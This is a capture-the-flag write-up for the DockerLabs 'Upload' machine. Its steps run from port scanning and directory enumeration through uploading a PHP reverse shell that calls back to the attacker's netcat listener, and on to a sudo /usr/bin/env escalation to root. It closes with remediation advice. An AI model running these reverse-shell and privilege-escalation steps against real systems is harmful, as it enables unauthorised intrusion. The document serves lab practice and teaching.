








# Upload — DockerLabs Writeup

**Platform:** DockerLabs | **Difficulty:** Easy | **Target IP:** 172.17.0.2 | **Attacker IP:** 172.17.0.1

## Machine info



## Summary

**Upload** is an Easy DockerLabs machine built around a single web application: a file upload form with no server-side validation on file extension or content. After confirming connectivity and scanning the host, enumeration revealed a browsable `/uploads/` directory. Uploading a `.php` file proved the form accepts and stores arbitrary file types, and that PHP files placed there are directly executable. A PHP reverse shell was uploaded and triggered to gain code execution as `www-data`. From there, `sudo -l` revealed a NOPASSWD entry for `/usr/bin/env`, which was abused to spawn a root shell.

**Attack chain:** Unrestricted File Upload → Remote Code Execution (www-data) → Sudo Misconfiguration (`/usr/bin/env`) → Root

## 1. Reconnaissance

Confirmed connectivity to the target:



Full port scan with `nmap`:

```
nmap -p- -sS -sC -sV -vvv --open -oN scan.txt 172.17.0.2

PORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.52 ((Ubuntu))
| http-methods:
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Upload here your file
```

Only port 80 is open, serving an Apache instance with a file upload page as its title.

## 2. Web Enumeration

Directory brute-forcing with `dirb`:

```
dirb http://172.17.0.2

+ http://172.17.0.2/index.html (CODE:200|SIZE:1361)
+ http://172.17.0.2/server-status (CODE:403|SIZE:275)
==> DIRECTORY: http://172.17.0.2/uploads/
(!) WARNING: Directory IS LISTABLE. No need to scan it.
```

`/uploads/` exists and is directory-listable — meaning any file uploaded there can be located and requested directly, without needing to guess a path.

## 3. Testing the Upload Functionality

The root page is a simple file upload form:



Uploaded an empty `test.php` to check whether the extension is validated:



The upload succeeded with no filtering. Checking the listable `/uploads/` directory confirmed the file was stored as-is:



This confirms an **unrestricted file upload** vulnerability: no extension whitelist/blacklist, and PHP execution is enabled inside the upload directory.

## 4. Exploitation

Uploaded pentestmonkey's `php-reverse-shell.php` (renamed `revshell.php`), configured with the attacker IP and port 4444, using the same upload form.

Confirmed in the browser that `revshell.php` was stored alongside `test.php`:



Started a listener and triggered the shell by requesting the uploaded file:

```
nc -lvnp 4444
```



```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Stabilized the shell:

```
script /dev/null -c bash
# Ctrl+Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
```

## 5. Privilege Escalation

Checked sudo permissions for `www-data`:

```
sudo -l

User www-data may run the following commands on 9957c625ceeb:
    (root) NOPASSWD: /usr/bin/env
```

`/usr/bin/env` can launch arbitrary binaries while inheriting the privileges it's run with — a known GTFOBins privilege escalation vector. Used it to spawn a root shell:

```
sudo -u root /usr/bin/env /bin/sh -p
```



```
# whoami
root
# id
uid=0(root) gid=0(root) groups=0(root)
```

Root confirmed.

## Root Cause & Remediation

| Issue | Fix |
|---|---|
| Upload form accepts any file extension, including `.php` | Enforce a strict allow-list of extensions and validate file content (MIME type / magic bytes), not just the filename |
| Uploaded files are stored in a web-accessible, PHP-executable directory | Store uploads outside the webroot, or disable script execution in the upload directory (e.g. via `.htaccess` / `php_admin_flag engine off`) |
| `/uploads/` has directory listing enabled | Disable `Options +Indexes` on directories that don't need to be browsable |
| `www-data` has NOPASSWD sudo rights on `/usr/bin/env` | Remove the sudo entry; if a specific binary must run as root, use a narrowly scoped wrapper instead of a shell-spawning GTFOBins-listed binary |
